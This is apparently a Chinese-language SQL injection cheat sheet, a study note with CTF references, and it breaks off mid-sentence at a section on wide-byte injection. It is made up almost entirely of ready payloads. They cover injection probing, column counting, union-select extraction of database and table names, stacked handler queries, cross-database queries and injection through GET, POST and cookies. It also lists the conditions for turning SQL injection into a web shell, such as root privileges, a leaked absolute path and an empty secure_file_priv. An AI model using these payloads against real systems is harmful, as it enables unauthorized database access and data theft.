 # sql注入

1' or 1=1# 查看是否存在注入

1'  order by 10# 查看字段

' union select 1,2,3,4 # 显示字段

' union select 1,databases()# 显示数据库

' union select 1,table_name from information_schema.tables where table_schema='databases' 查看表名

# 堆叠注入

;handler FlagHere open;handler FlagHere read first;-


# 跨库注入
* 必须条件，数据库的用户必须是root用户

查看是否是root用户
union select user()%23

然后查看所有数据库名
union select group_concat(schema_name) from information_schema.schemata%23


# sql注入GetShell

* sql注入GetShell的必要条件，数据库的用户必须是root用户

	* union select user()%23

* 必须知道绝对路径，而且数据库配置文件中的secure_file_priv要等于空值
	1. 通过错误爆出路径
	2. 通过网站的遗留文件爆出路径（例如： phpinfo等）
	3. 通过漏洞爆出路径
	4. 根据对方的web服务器类型猜路径

# 多种方式注入

* GET 
	- 直接?就行了（例：?id=plaody）

* POST
	- POST请求就是用于表单
	- 可以在表单里注入

* cookie
	- cookie注入就是在cookie里注入sql语句
	- 前提是要得有cookie
	- 注入方式可以使用burpstuie进行注入


# 参数注入类型

* 数字型
	- select * from user where id=1
	- select * from user where id=-1 union select 1,2,3

* 字符型
	- select * from user where id='str'
	- select * from user where id='-1' union select 1,2,3 --+'

* 搜索型
	- select * from user where user like id='%str%'
	- select * from user where user like id='%%'union select 1,2,3 '%%'

# 宽字节注入

宽字节注入一般
